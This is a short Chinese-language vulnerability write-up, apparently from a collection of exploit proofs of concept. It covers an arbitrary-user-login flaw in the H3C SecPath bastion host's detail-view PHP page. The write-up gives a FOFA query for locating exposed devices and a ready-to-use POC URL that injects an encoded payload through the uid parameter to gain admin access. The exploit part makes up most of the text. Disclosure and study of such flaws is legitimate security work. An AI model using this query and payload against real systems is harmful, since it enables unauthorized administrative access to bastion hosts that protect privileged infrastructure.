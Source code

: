 # H3C SecParh堡垒机 get_detail_view.php 任意用户登录漏洞

## 漏洞描述

H3C SecParh堡垒机 get_detail_view.php 存在任意用户登录漏洞

与齐治堡垒机出现的漏洞相似

## 漏洞影响

```
H3C SecParh堡垒机
```

## FOFA

```
app="H3C-SecPath-运维审计系统" && body="2018"
```

## 漏洞复现

登录页面如下

![1](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091826937.png)



POC验证的Url为

```plain
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
```



![2](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091826692.png)

成功获取admin权限



## 